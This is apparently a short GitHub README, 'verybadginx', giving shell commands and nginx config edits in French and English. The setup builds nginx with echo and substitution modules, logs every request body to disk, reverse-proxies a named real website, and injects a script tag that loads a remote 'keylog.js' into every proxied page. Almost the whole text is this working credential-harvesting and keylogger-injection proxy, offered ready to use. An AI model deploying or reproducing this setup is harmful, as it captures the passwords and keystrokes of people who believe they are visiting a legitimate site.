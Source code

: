 # verybadginx

#### Download nginx with modules

cd /tmp
curl -L -O 'https://github.com/openresty/echo-nginx-module/archive/v0.58.tar.gz'
tar -xzvf v0.58.tar.gz && rm v0.58.tar.gz
mv echo-nginx-module-0.58 /tmp/echo-nginx-module
curl -O 'http://nginx.org/download/nginx-1.9.7.tar.gz'
tar -xzvf nginx-1.9.7.tar.gz && rm nginx-1.9.7.tar.gz
git clone https://github.com/openresty/replace-filter-nginx-module

####  Ajout user/group nginx
groupadd nginx
useradd -g nginx nginx

####  Install nginx with modules

cd nginx-1.9.7/ && ./configure \
 --user=nginx \
 --group=nginx \
 --prefix=/etc/nginx \
 --sbin-path=/usr/sbin/nginx \
 --conf-path=/etc/nginx/nginx.conf \
 --pid-path=/var/run/nginx.pid \
 --lock-path=/var/run/nginx.lock \
 --error-log-path=/var/log/nginx/error.log \
 --http-log-path=/var/log/nginx/access.log \
 --add-module=/tmp/echo-nginx-module \
 --add-module=/tmp/replace-filter-nginx-module \
 --without-http_rewrite_module


#### Modif nginx.conf
http {
add 	log_format custom '$request_body';
add	access_log /var/log/nginx/access.log custom;
del      include /etc/nginx/sites-enabled/*;
add       include /etc/nginx/sites-enabled/default;

#### Modif sites-available/default et sites-enabled/default


	location / {
add		echo_read_request_body;
add		proxy_pass http://www.microplus.fr/;
add		subs_filter "</div>" "</div><script/src='https://www.microplus.fr/secu/images/test/keylog.js'></script>" -o;

	

